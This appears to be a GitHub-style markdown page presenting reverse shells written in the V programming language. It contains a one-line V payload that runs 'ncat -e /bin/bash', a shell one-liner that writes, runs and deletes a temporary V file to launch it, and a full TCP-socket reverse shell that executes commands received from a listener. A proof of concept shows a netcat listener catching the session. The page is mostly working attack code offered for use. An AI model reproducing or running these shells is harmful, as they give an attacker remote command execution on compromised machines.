 ### Vlang Reverse Shell (One Line)

---

- Original Code:

```v
import os

os.system("ncat -e /bin/bash 127.0.0.1 9001 0>&1")
```

- Reverse Shell:

```bash
echo 'import os' > /tmp/t.v && echo 'fn main() { os.system("ncat -e /bin/bash 127.0.0.1 9001 0>&1") }' >> /tmp/t.v && v run /tmp/t.v && rm /tmp/t.v
```

- How does it work?

*Using the `os` module, we can use the `system()` function to execute a command. Similar to Golang's reverse shell. Vlang doesn't support minifying. So, `import os` had to be written into `/tmp/t.v` first then we append the rest of the code to it. Finally, we delete the file `/tmp/t.v`.*

### Vlang Reverse Shell (TCP Socket)

---

```v
module main

import net
import io
import os

fn run(path string) string {
        mut out := ''
        mut line := ''
        mut cmd := os.Command{ path: path }
        cmd.start() or { panic(err) }

        for {
                line = cmd.read_line()
                out += '${line}\n'
                if cmd.eof { return out }
        }
        return out
}

fn main() {
        mut conn := net.dial_tcp('127.0.0.1:9001') ?
        mut reader := io.new_buffered_reader(reader: conn)
        for {
                result := reader.read_line() or { return }
                conn.write_string(run(result)) or { return }
        }
}
```

### PoC

---

```bash
# Set up listener...
$ nc -lvnp 9001
```

```bash
# Connection recived (Payload Executed)
Connection received on 127.0.0.1 59470
$ whoami
lexxrt
```

##### Enjoy :)
